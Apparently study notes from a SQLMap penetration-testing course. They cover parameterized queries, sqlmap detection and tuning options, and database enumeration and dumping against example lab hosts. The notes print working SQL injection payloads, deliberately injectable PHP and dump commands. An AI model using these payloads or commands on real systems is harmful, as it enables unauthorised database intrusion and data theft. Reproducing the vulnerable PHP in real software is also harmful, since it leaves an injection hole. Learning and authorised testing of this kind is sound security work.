WAFs are used to detect malicious input and reject any HTTP requests containing them. This helps in preventing SQLi even when the application logic is flawed. WAFs can be open-source or premium. Most of them have default rules configured based on the common web attacks. For example, any request containing the string "INFORMATION_SCHEMA" would be rejected, as it's commonly used while exploitig SQLi.

#### Paramterized Queries

Another way to ensure that the input is safely sanitized is by using parameterized queries. Parameterized queries contain placeholders for the input data, which is then escaped and passed on by the drivers. Instead of directly passing the data into the SQL query, you use placeholders and then fill them with PHP functions.

```php
<SNIP>
  $username = $_POST['username'];
  $password = $_POST['password'];

  $query = "SELECT * FROM logins WHERE username=? AND password = ?" ;
  $stmt = mysqli_prepare($conn, $query);
  mysqli_stmt_bind_param($stmt, 'ss', $username, $password);
  mysqli_stmt_execute($stmt);
  $result = mysqli_stmt_get_result($stmt);

  $row = mysqli_fetch_array($result);
  mysqli_stmt_close($stmt);
<SNIP>
```

The query is modified to contain two placeholders, marked with ```?``` where the username and password will be placed. You then bind the username and password to the query using the ```mysqli_stmt_bind_param()``` function. This will safely escape any quotes and place the values in the query.

# SQLMap

... is a free and open-source penetration testing tool written in Python that automates the process of detecting and exploiting SQLi flaws.

```bash
d41y@htb[/htb]$ python sqlmap.py -u 'http://inlanefreight.htb/page.php?id=5'

       ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.10.41#dev}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 12:55:56

[12:55:56] [INFO] testing connection to the target URL
[12:55:57] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[12:55:58] [INFO] testing if the target URL content is stable
[12:55:58] [INFO] target URL content is stable
[12:55:58] [INFO] testing if GET parameter 'id' is dynamic
[12:55:58] [INFO] confirming that GET parameter 'id' is dynamic
[12:55:59] [INFO] GET parameter 'id' is dynamic
[12:55:59] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[12:56:00] [INFO] testing for SQL injection on GET parameter 'id'
<...SNIP...>
```

## Databases

Supported DBMSes are:

- MySQL
- Oracle
- PostgreSQL
- Microsoft
- SQL Server
- SQLite
- IBM DB2
- Microsoft AccessFirebird
- Sybase
- SAP MaxDB
- Informix
- MariaDB
- HSQLDB
- CockroachDB
- TiDB
- MemSQL
- H2
- MonetDB
- Apache Derby
- Amazon Redshift
- Vertica, Mckoi
- Presto
- Altibase
- MimerSQL
- CrateDB
- Greenplum
- Drizzle
- Apache Ignite
- Cubrid
- InterSystems
- Cache
- IRIS
- eXtremeDB
- FrontBase

## Supported SQLi Types

BEUSTQ

- **B**: Boolean-based blind
- **E**: Error-based
- **U**: Union query-based
- **S**: Stacked queries
- **T**: Time-based blind
- **Q**: Inline queries

## Basic Scenario

Vulnerable PHP code:

```php
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $sql);
if (!$result)
    die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");
```

As error reporting is enabled for the vulnerbale SQL query, there will be a database error returned as part of the web server response in case of any SQL query execution problems. Such cases ease the process of SQLi detection, especially in case of manual parameter value tampering, as the resulting errors are easily recognized.



To run SQLMap against this example, located at the example URL ```http://www.example.com/vuln.php?id=1```, would look like the following:

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 22:26:45 /2020-09-09/

[22:26:45] [INFO] testing connection to the target URL
[22:26:45] [INFO] testing if the target URL content is stable
[22:26:46] [INFO] target URL content is stable
[22:26:46] [INFO] testing if GET parameter 'id' is dynamic
[22:26:46] [INFO] GET parameter 'id' appears to be dynamic
[22:26:46] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[22:26:46] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[22:26:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[22:26:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:26:46] [WARNING] reflective value(s) found and filtering out
[22:26:46] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")
[22:26:46] [INFO] testing 'Generic inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:26:46] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
...SNIP...
[22:26:46] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[22:26:46] [INFO] testing 'MySQL inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:26:46] [WARNING] time-based comparison requires larger statistical model, please wait........... (done)                                                                                                       
...SNIP...
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:26:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[22:26:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:26:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:26:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:26:56] [INFO] target URL appears to have 3 columns in query
[22:26:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8814=8814

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 7744 FROM(SELECT COUNT(*),CONCAT(0x7170706a71,(SELECT (ELT(7744=7744,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3669 FROM (SELECT(SLEEP(5)))TIxJ)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170706a71,0x554d766a4d694850596b754f6f716250584a6d53485a52474a7979436647576e766a595374436e78,0x71707a7871)-- -
---
[22:26:56] [INFO] the back-end DBMS is MySQL
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
[22:26:57] [INFO] fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'

[*] ending @ 22:26:57 /2020-09-09/
```

## SQLMap Output Description

| Log Message Type | Log Message Example | Log Message Explanation |
| ---------------- | ------------------- | ----------------------- |
| **URL content is stable** | _"target URL content is stable"_ | there are no major changes between responses in case of continuous identical requests;in the event of stable responses, it is easier to spot differences caused by the potential SQLi attempts |
| **Parameter appears to be dynamic** | _"GET parameter 'id' appears to be dynamic"_ | it is always desired for the tested parameter to be "dynamic", as it is a sign that any changes made to its value would result in a change in the response; hence the parameter may be linked to a database; in case the output is "static" and does not change, it could be an indicator that the value of the tested parameter is not processed by the target, at least in the current context |
| **Parameter might be injectable** | _"heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DMBS: 'MySQL')"_ | not proof of SQLi, but just an indication that the detection mechanism has to be proven in the subsequent run |
| **Parameter might be vulnerable to XSS attacks** | _"heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks"_ | SQLMap also runs a quick heuristic test for the presence of an XSS vulnerability |
| **Back-end DBMS is '...'** | _"it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]"_ | in a normal run, SQLMap tests for all supported DBMSes; in case there is a clear indication that the target is using the specific DBMS |
| **Level/risk values** | _"for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]" | if there is a clear indication that the target uses the specific DBMS, it is also possible to extend the tests for that same specific DBMS beyond the regular tests |
| **Reflective values found** | _"reflective value(s) found and filtering out"_ | just a warning that parts of the used payloads are found in the response |
| **Parameter appears to be injectable** | _"GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --strings="luther")"_ | indicates that the parameter appers to be injectable; though there is still a chance for it to be a false-positive finding |
| **Time-based comparison statistical mode** | _"time-based comparison requires a larger statistical model, please wait...... (done)"_ | SQLMap uses statistical model for the recognition of regular and (deliberately) delayed target responses |
| **Extending UNION query injection technique test** | _"automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found"_ | UNION-query SQLi checks require considerably more requests for successful recognition of usable payload other than other SQLi types |
| **Technique appears to be usable** | _"'ORDER BY' technique appears to be usable. This should reduce the time needed to finde the right number of query columns. Automatically extending the range for current UNION query injection technique test"_ | as a heuristic check for the UNION-query SQLi type, before the actual UNION payloads are sent, a technique known as ORDER BY is checked for usability |
| **Parameter is vulnerable** | _"GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [Y/n]"_ | means that the parameter was found to be vulnerable to SQLi |
| **Sqlmap identified injection points** | _"sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:"_ | following after is a listing of all injection points with type, title, payloads, which represents the final proof of successful detection and exploitation of found SQLi vulns |
| **Data logged to text files** | _"fetched data logged to text files under '/home/user/.sqlmap/output/www.example.com'"_ | indicates the local file system location used for storing all logs, sessions, and output data for a specific target - in this case, ```www.example.com``` |

## SQLMap on HTTP Request

### CURL Commands

One of the best and easiest ways to properly set up an SQLMap request against a specific target is by utilizing ```Copy as cURL``` feature from within the Network panel inside the Chrome, Edge, or Firefox Developer Tools.

By pasting the clipboard content into the command line, and changing the original command ```curl``` to sqlmap, you are able to use SQLMap with the identical ```curl``` command:

```bash
d41y@htb[/htb]$ sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

When providing data for testing to SQLMap, there has to be either a parameter (_id=..._) value that could be assessed for SQLi vulnerability or specialized options/switches for automatic parameter finding (_```-crawl```, ```-forms```, ```-g```_).

### GET/POST Requests

In the most common scenario, GET parameters are provided with the usage of option ```-u``` or ```---url```. As for testing POST data, the ```--data```.

```bash
d41y@htb[/htb]$ sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

If you have a clear indication that the parameter ```uid``` is prone to an SQLi vuln, you could narrow down the tests to only this parameter using ```-p uid```. Otherwise, you could mark it inside the provided data with the usage of special marker ```*```.

```bash
d41y@htb[/htb]$ sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
```

### Full HTTP Requests

If you need to specify a complex HTTP request with lots of different header values and an elongated POST body, you can use the ```-r``` flag. With this option, SQLMap is provided with the "request file", containing the whole HTTP request inside a single textual file. You can capture the request within a specialized proxy.

Burp example:

```bash
GET /?id=1 HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
If-Modified-Since: Thu, 17 Oct 2019 07:18:26 GMT
If-None-Match: "3147526947"
Cache-Control: max-age=0
```

```-r``` flag usage example:

```bash
d41y@htb[/htb]$ sqlmap -r req.txt
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.9}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 14:32:59 /2020-09-11/

[14:32:59] [INFO] parsing HTTP request from 'req.txt'
[14:32:59] [INFO] testing connection to the target URL
[14:32:59] [INFO] testing if the target URL content is stable
[14:33:00] [INFO] target URL content is stable
```

### Custom SQLMap Requests

You can craft complicated requests manually, there are numerous switches and options to fine-tune SQLMap.

- ```--cookie```
- ```-H/--header```
- ```--host```
- ```--referer```
- ```-A/--user-agent```
- ```--random-agent```
- ```--mobile```
- ```--method```

### Custom HTTP Requests

SQLMap also supports JSON formatted and XML formatted HTTP requests.

Support for these formats is implemented in a "relaxed" manner; thus, there are no strict constraints on how the parameter values are stored inside.

You can once again use the ```-r``` flag option:

```bash
d41y@htb[/htb]$ cat req.txt
HTTP / HTTP/1.0
Host: www.example.com

{
  "data": [{
    "type": "articles",
    "id": "1",
    "attributes": {
      "title": "Example JSON",
      "body": "Just an example",
      "created": "2020-05-22T14:56:29.000Z",
      "updated": "2020-05-22T14:56:28.000Z"
    },
    "relationships": {
      "author": {
        "data": {"id": "42", "type": "user"}
      }
    }
  }]
}
```

```bash
d41y@htb[/htb]$ sqlmap -r req.txt
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.9}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 00:03:44 /2020-09-15/

[00:03:44] [INFO] parsing HTTP request from 'req.txt'
JSON data found in HTTP body. Do you want to process it? [Y/n/q] 
[00:03:45] [INFO] testing connection to the target URL
[00:03:45] [INFO] testing if the target URL content is stable
[00:03:46] [INFO] testing if HTTP parameter 'JSON type' is dynamic
[00:03:46] [WARNING] HTTP parameter 'JSON type' does not appear to be dynamic
[00:03:46] [WARNING] heuristic (basic) test shows that HTTP parameter 'JSON type' might not be injectable

/ 1 spawns left
Waiting to start...
Enable step-by-step solutions for all questions
sparkles-icon-decoration
Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): Click here to spawn the target system!

+ 1 What's the contents of table flag2? (Case #2)
+ 1 What's the contents of table flag3? (Case #3)
+ 1 What's the contents of table flag4? (Case #4)
Table of Contents
Getting Started
Building Attacks
Database Enumeration
Advanced SQLMap Usage
Skills Assessment
My Workstation

OFFLINE

/ 1 spawns left
```

## Handling SQLMap Errors

### Display Errors

Use ```--parse-errors``` to parse the DBMS errors and display them as part of the programm run. This will  automatically print the DBMS error, thus giving you clarity on what the issue may be so that you can properly fix it:

```bash
...SNIP...
[16:09:20] [INFO] testing if GET parameter 'id' is dynamic
[16:09:20] [INFO] GET parameter 'id' appears to be dynamic
[16:09:20] [WARNING] parsed DBMS error message: 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '))"',),)((' at line 1'"
[16:09:20] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[16:09:20] [WARNING] parsed DBMS error message: 'SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''YzDZJELylInm' at line 1'
...SNIP...
```

### Store the Traffic

The ```-t [FILE]``` option stores the whole traffic content to an output file. This file then contains all sent and received HTTP traffic, so you can manually investigate these requests to see where the issue is occuring:

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt

d41y@htb[/htb]$ cat /tmp/traffic.txt
HTTP request [#1]:
GET /?id=1 HTTP/1.1
Host: www.example.com
Cache-control: no-cache
Accept-encoding: gzip,deflate
Accept: */*
User-agent: sqlmap/1.4.9 (http://sqlmap.org)
Connection: close

HTTP response [#1] (200 OK):
Date: Thu, 24 Sep 2020 14:12:50 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 914
Connection: close
Content-Type: text/html; charset=UTF-8
URI: http://www.example.com:80/?id=1

<!DOCTYPE html>
<html lang="en">
...SNIP...
```

### Verbose Output

The ```-v``` option raises the verbosity level of the console output. ```-v 6```, for example, will directly print all errors and full HTTP request to the terminal so that you can follow along with everything SQLMap is doing in real-time:

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.9}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 16:17:40 /2020-09-24/

[16:17:40] [DEBUG] cleaning up configuration parameters
[16:17:40] [DEBUG] setting the HTTP timeout
[16:17:40] [DEBUG] setting the HTTP User-Agent header
[16:17:40] [DEBUG] creating HTTP requests opener object
[16:17:40] [DEBUG] resolving hostname 'www.example.com'
[16:17:40] [INFO] testing connection to the target URL
[16:17:40] [TRAFFIC OUT] HTTP request [#1]:
GET /?id=1 HTTP/1.1
Host: www.example.com
Cache-control: no-cache
Accept-encoding: gzip,deflate
Accept: */*
User-agent: sqlmap/1.4.9 (http://sqlmap.org)
Connection: close

[16:17:40] [DEBUG] declared web page charset 'utf-8'
[16:17:40] [TRAFFIC IN] HTTP response [#1] (200 OK):
Date: Thu, 24 Sep 2020 14:17:40 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 914
Connection: close
Content-Type: text/html; charset=UTF-8
URI: http://www.example.com:80/?id=1

<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
  <meta name="description" content="">
  <meta name="author" content="">
  <link href="vendor/bootstrap/css/bootstrap.min.css" rel="stylesheet">
  <title>SQLMap Essentials - Case1</title>
</head>

<body>
...SNIP...
```

### Using Proxy

You can utilize ```--proxy=http://[IP:PORT]``` to redirect the whole traffic through a proxy. This will route all SQLMap traffic through Burp, so that you can later manually investigate all requests, repeat them, and utilize all features of Burp with these requests.

## Attack Tuning

### Prefix/Suffix

There is a requirement for special prefix and suffix values in rare cases, not covered by the regular SQLMap run. You can use ```--prefix``` and/or ```--suffix```.

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- "
```

So this:

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

Will turn into:

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- ')) LIMIT 0,1
```

### Level/Risk

By default, SQLMap combines a predefined set of most common boundaries, along with the vectors having a high chance of success in case of a vulnerable target. To use bigger sets of boundaries and vectors you can use ```--level``` and ```--risk```.

|   |   |
| - | - |
| **```--level```** (_1-5, default 1_) | extends both vectors and boundaries being used, based on their expectancy of success |
| **```--risk```** (_1-3, default 1_) | extends the used vector set based on their risk of causing problems at the target side | 

```bash
d41y@htb[/htb]$ sqlmap -u www.example.com/?id=1 --level=5 --risk=3

...SNIP...
[14:46:03] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:46:03] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[14:46:03] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
...SNIP...
[14:46:05] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[14:46:05] [INFO] testing 'PostgreSQL OR boolean-based blind - WHERE or HAVING clause (CAST)'
[14:46:05] [INFO] testing 'Oracle AND boolean-based blind - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
...SNIP...
[14:46:05] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[14:46:05] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[14:46:05] [INFO] testing 'PostgreSQL boolean-based blind - ORDER BY clause (original value)'
...SNIP...
[14:46:05] [INFO] testing 'SAP MaxDB boolean-based blind - Stacked queries'
[14:46:06] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[14:46:06] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
...SNIP...
```

As for the number of payloads, by default, the number of payloads used for testing a single parameter goes up to 72, while in the most detailed case the number of payloads increases to 7,865.

> [!NOTE]
> As SQLMap is already tuned to check for the most common boundaries and vectors, regular users are advised not to touch these options because it will make the whole detection process considerably slower. Nevertheless, in special cases of SQLi vulns, where the usage of OR payloads is a must, you may have to raise the risk level yourself.<br>
> This is because OR payloads are inherently dangerous in a default run, where underlying vulnerable SQL statements are actively modifying the database content.

## Advanced Attack Tuning

### Status Code

When dealing with a huge target response with a lot of dynamic content, subtle differences between TRUE and FALSE responses could be used for detection purposes. If the difference between TRUE and FALSE responses can be seen in the HTTP codes, the option ```--code``` could be used to fixate the detection of TRUE responses to a specific HTTP code (_e.g. ```--code=200```_).

### Titles

In the difference between responses can be seen by inspecting the HTTP page titles, the switch ```--titles``` could be used to instruct the detection mechanism to base the comparison based on the content of the HTML tag ```<title>```.

### Strings

In case of a specific string value appearing in TRUE responses, while absent in FALSE responses, the option ```--string``` could be used to fixate the detection based only on the appearance of that single value (_e.g. --string=success_).

### Text-only

When dealing with a lot of hidden content, such as certain HTML page behaviors tags, you can use the ```--text-only``` switch, which removes all the HTML tags, and bases the comparison only on the textual content.

### Techniques

In some special cases, you have to narrow down the used payloads only to a certain type. For example, if the time-based blind payloads are causing trouble in the form of response timeouts, or if you want to force the usage of a specific SQLi payload type, the option ```--technique``` can specify the SQLi technique to be used.

### UNION SQLi Tuning

In some cases, UNION SQLi payloads require extra user-provided information to work. If you can manually find the exact number of columns of the vulnerable SQL query, you can provide this number to SQLMap with the option ```--union-cols```. In case that the default "dummy" filling values used by SQLMap -NULL and random integer- are not compatible with values from results of the vulnerable SQL query, you can specify an alternative value instead (_e.g. ```--union-char='a'```_). 

Furthermore, in case there is a requirement to use an appendix at the end of a UNION query in the form of the FROM TABLE, you can set it with the option ```--union-from```.

## Database Enumeration

Enumeration represents the central part of an SQLi attack, which is done right after the successful detection and confirmation of exploitability of the targeted SQLi vulnerability. It consists of lookup and retrieval of all the available information from the vulnerable database.

### SQLMap Data Exfiltration

For such purpose, SQLMap has predefined set of queries for all supported DBMSes, where each entry represents the SQL that must be run at the target to retrieve the desired content.

MySQL DBMS ```queries.xml``` example:

```xml
<?xml version="1.0" encoding="UTF-8"?>

<root>
    <dbms value="MySQL">
        <!-- http://dba.fyicenter.com/faq/mysql/Difference-between-CHAR-and-NCHAR.html -->
        <cast query="CAST(%s AS NCHAR)"/>
        <length query="CHAR_LENGTH(%s)"/>
        <isnull query="IFNULL(%s,' ')"/>
...SNIP...
        <banner query="VERSION()"/>
        <current_user query="CURRENT_USER()"/>
        <current_db query="DATABASE()"/>
        <hostname query="@@HOSTNAME"/>
        <table_comment query="SELECT table_comment FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='%s' AND table_name='%s'"/>
        <column_comment query="SELECT column_comment FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema='%s' AND table_name='%s' AND column_name='%s'"/>
        <is_dba query="(SELECT super_priv FROM mysql.user WHERE user='%s' LIMIT 0,1)='Y'"/>
        <check_udf query="(SELECT name FROM mysql.func WHERE name='%s' LIMIT 0,1)='%s'"/>
        <users>
            <inband query="SELECT grantee FROM INFORMATION_SCHEMA.USER_PRIVILEGES" query2="SELECT user FROM mysql.user" query3="SELECT username FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS"/>
            <blind query="SELECT DISTINCT(grantee) FROM INFORMATION_SCHEMA.USER_PRIVILEGES LIMIT %d,1" query2="SELECT DISTINCT(user) FROM mysql.user LIMIT %d,1" query3="SELECT DISTINCT(username) FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS LIMIT %d,1" count="SELECT COUNT(DISTINCT(grantee)) FROM INFORMATION_SCHEMA.USER_PRIVILEGES" count2="SELECT COUNT(DISTINCT(user)) FROM mysql.user" count3="SELECT COUNT(DISTINCT(username)) FROM DATA_DICTIONARY.CUMULATIVE_USER_STATS"/>
        </users>
    ...SNIP...
```

### Basic DB Data Enumeration

After a successful detection of an SQLi vulnerability, you can begin the enumeration of basic details from the database, such as the hostname of the vulnerable target, current user's name, current database name, or password hashes. SQLMap will skip SQLi detection if it has been identified earlier and directly start the DBMS enumeration process.

Enumeration usually start with:

- Database version banner
  - ```--banner```
- Current user name
  - ```--current-user```
- Current database name
  - ```--current-db```
- Checking if the current user has DBA rights
  - ```--is-dba```

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 13:30:57 /2020-09-17/

[13:30:57] [INFO] resuming back-end DBMS 'mysql' 
[13:30:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5134=5134

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 5907 FROM(SELECT COUNT(*),CONCAT(0x7170766b71,(SELECT (ELT(5907=5907,1))),0x7178707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170766b71,0x7a76726a6442576667644e6b476e577665615168564b7a696a6d4646475159716f784f5647535654,0x7178707671)-- -
---
[13:30:57] [INFO] the back-end DBMS is MySQL
[13:30:57] [INFO] fetching banner
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
banner: '5.1.41-3~bpo50+1'
[13:30:58] [INFO] fetching current user
current user: 'root@%'
[13:30:58] [INFO] fetching current database
current database: 'testdb'
[13:30:58] [INFO] testing if current user is DBA
[13:30:58] [INFO] fetching current user
current user is DBA: True
[13:30:58] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 13:30:58 /2020-09-17/
```

### Table Enumeration

After finding the current database name, the retrieval of table names would be by using the ```--tables``` option and specifying the DB name with ```-D testdb```.

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
```

After spotting the table name of interest, retrieval of its contents can be done by using the ```--dump``` option and specifying the table name with ```-T users```.

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb

...SNIP...
Database: testdb

Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+

[14:07:18] [INFO] table 'testdb.users' dumped to CSV file '/home/user/.local/share/sqlmap/output/www.example.com/dump/testdb/users.csv'
```

### Table/Row Enumeration

When dealing with large tables with many columns and/or rows, you can specify the columns with the ```-C``` option.

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname

...SNIP...
Database: testdb

Table: users
[4 entries]
+--------+------------+
| name   | surname    |
+--------+------------+
| luther | blisset    |
| fluffy | bunny      |
| wu     | ming       |
| NULL   | nameisnull |
+--------+------------+
```

To narrow down the rows based on their ordinal number(s) inside the table, you can specify the rows with the ```--start``` and ```--stop``` options.

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3

...SNIP...
Database: testdb

Table: users
[2 entries]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
+----+--------+---------+
```

### Conditional Enumeration

If there is a requirement to retrieve certain rows based on a known WHERE condition, you can use the option ```--where```.

```bash
d41y@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

...SNIP...
Database: testdb

Table: users
[1 entry]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
+----+--------+---------+
```

### Full DB Enumeration

Instead of retrieving content per single-table basis, you can retrieve all tables inside the database of interest by skipping the usage of option ```-T``` altogether. By simply using the switch ```--dump``` without specifying a table with ``` -T```, all of the current database content will be retrieved. As for the ```--dump-all``` switch, all the content from all the databases will be retrieved.

